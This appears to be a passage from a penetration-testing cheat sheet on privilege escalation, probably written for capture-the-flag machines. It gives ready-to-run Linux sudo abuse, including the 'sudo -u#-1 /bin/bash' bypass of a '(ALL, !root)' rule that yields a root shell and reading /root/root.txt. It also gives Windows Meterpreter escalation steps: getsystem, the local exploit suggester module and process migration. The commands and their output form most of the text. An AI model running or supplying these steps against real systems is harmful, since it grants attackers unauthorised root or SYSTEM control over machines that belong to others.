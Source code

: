 ```
> $ sudo -l
User www-data may run the following commands on bashed:
(enemy : enemy) NOPASSWD: ALL
```
We can try like below
```
> $ sudo -u enemy /bin/bash
id
uid=1001(enemy) gid=1001(enemy) groups=1001(enemy)
```

```
> $ sudo -l
[sudo] password for username: 
Matching Defaults entries for username on Victim:
  env_reset, mail_badpass,
  secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
 
  User username may run the following commands on Victim:
    (ALL : ALL) ALL
> $ cat /root/root.txt
cat: /root/root.txt: Permission denied  - Does not work
> $ sudo cat /root/root.txt  - Work
```

```
user@host:~$ sudo -l
sudo -l
Matching Defaults entries for user on host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on host:
    (ALL, !root) /bin/bash

user@host:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
Password: Password

Sorry, try again.
Password: <Enter Password>

root@host:/home/user# id
id
uid=0(root) gid=1001(user) groups=1001(user)

```


#### Gain More Privilige on windows system
- In meterpreter shell try `getsystem`
- In meterpreter shell try `background` and then follow rest of commands.
- search suggester
```
> use post/multi/recon/local_exploit_suggestor
show options
set session 1
run
```
- If worked fine, else Try follow rest of commands.
- Use this link: [FuzzySec Win Priv Exec](https://www.fuzzysecurity.com/tutorials/16.html)
- Use this method: [Sherlock](https://github.com/rasta-mouse/Sherlock)
- If current process doesnt own Privs, use `migrate <PID>` to get more Priviliges in Meterpretor.
